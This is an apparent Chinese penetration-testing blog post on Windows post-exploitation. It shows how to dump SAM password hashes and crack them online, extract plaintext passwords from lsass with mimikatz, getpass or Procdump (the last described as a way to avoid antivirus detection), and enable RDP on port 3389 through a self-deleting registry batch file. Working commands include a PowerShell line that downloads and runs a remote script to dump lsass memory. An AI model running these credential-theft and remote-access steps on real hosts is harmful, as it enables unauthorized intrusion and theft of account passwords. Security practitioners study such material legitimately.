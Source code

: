 +++
date = "2016-08-08T08:28:27+08:00"
description = ""
draft = false
tags = ["intranet"]
title = "导出Windows主机密码与开启3389"
topics = ["Pentest"]

+++

### 0x00 导出主机密码hash
* 关于Windows的hash
    * 早期IBM设计的LM Hash算法存在弱点，微软在保持向后兼容性的同时提出了自己的挑战响应机制，即NTLM Hash
    * Windows hash由LM HASH和NT HASH两部分组成，形式为：用户名称:RID:LM-HASH值:NT-HASH值
    * 存储Windows hash的sam文件位置为：C:\windows\system32\config\SAM

* 导出hash条件
    * administrator以上权限

* 导出hash工具
    * wce
    * gethash
    * hashdump
    * SAMInside

* 上传工具得到hash
![查看是否为管理员以上权限](/img/post/privilge_escalation_win_view_whoami.png)
![上传wce](/img/post/privilge_escalation_win_upload_wce.png)
![得到hash](/img/post/privilge_escalation_win_get_hash.png)

* 在线网站解密hash
    * LM Hash和NT Hash得到一个就可以解密，不过两个都得到的话解密的成功率会更高
    * 可以在[http://www.objectif-securite.ch/ophcrack.php](http://www.objectif-securite.ch/ophcrack.php?_blank)解密
    ![解出密码](/img/post/privilge_escalation_win_get_pwd.png)

### 0x01 导出主机密码
* 条件
    * administrator以上权限
    * 当前管理员没有注销登陆(可以通过query user命令看出)

* 工具
    * mimikatz
    * getpass

* 上传工具得到密码
![查看是否为管理员以上权限](/img/post/privilge_escalation_win_view_whoami.png)
![查看管理员是否注销登陆](/img/post/privilge_escalation_win_query_user.png)
![上传getpass](/img/post/privilge_escalation_win_upload_getpass.png)
![得到密码1](/img/post/privilge_escalation_win_getpass1.png)
![得到密码2](/img/post/privilge_escalation_win_getpass2.png)

* 导出hash本地得到密码  
    若mimikatz和getpass这类软件被杀的话可以先用Procdump导出lsass.dmp，然后本地用mimikatz解密，Procdump是微软官方的软件，应该不会被杀
    * 导出文件dmp文件  
        * 上传Procdump.exe导出

        > ```
        Procdump.exe -accepteula -ma lsass.exe lsass.dmp
        ```

        * 或者执行PowerShell导出

        > ```
        powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1'); "Get-Process lsass | Out-Minidump"
        ```
    * 下载导出的dmp文件后用本地mimikatz解密  
        先输入：```mimikatz.exe "sekurlsa::minidump lsass.dmp"```  
        后输入：sekurlsa::logonpasswords

### 0x02 开启3389
* 直接使用注册表
![新建开3389的注册表](/img/post/privilge_escalation_win_new_file_3389_reg.png)
![开3389端口](/img/post/privilge_escalation_win_open_3389.png)
![成功开启3389端口](/img/post/privilge_escalation_win_open_3389_success.png)

* 写一个批处理也行
```
# 3389.bat内容如下：
echo Windows Registry Editor Version 5.00>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg 
echo "fDenyTSConnections"=dword:00000000>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
regedit /s 3389.reg 
del 3389.reg
del 3389.bat
```
![新建开3389的注册表](/img/post/privilge_escalation_win_new_file_3389_bat.png)


<br>
#### Reference(侵删)：
![https://www.cnblogs.com/hiccup/p/4380298.html](https://www.cnblogs.com/hiccup/p/4380298.html?_blank)
